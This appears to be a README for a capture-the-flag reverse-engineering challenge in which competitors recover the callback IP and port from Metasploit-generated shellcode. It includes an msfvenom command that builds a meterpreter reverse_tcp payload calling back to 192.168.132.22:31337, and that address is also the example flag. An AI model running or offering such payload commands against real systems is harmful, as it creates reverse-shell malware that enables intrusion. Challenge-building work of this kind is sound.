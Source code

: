 # can_you_run_it
Shellcode Runner Reverse Engineering Challenges.

The competitor is tasked in reverse engineering the Metasploit framework (msf) generated binaries
to identify the flag. The flag is the IP address + port the Msf binaries connect back to.

Difficulty can be increased by not indicating the underlying architecture to the competitor.

## Example

Generate the binary via the command below.

```bash
msfvenom -f raw -p linux/x86/meterpreter/reverse_tcp  LHOST=192.168.132.22 LPORT=31337 -o shellcode_1.bin
```

Flag would be `192.168.132.22:31337`
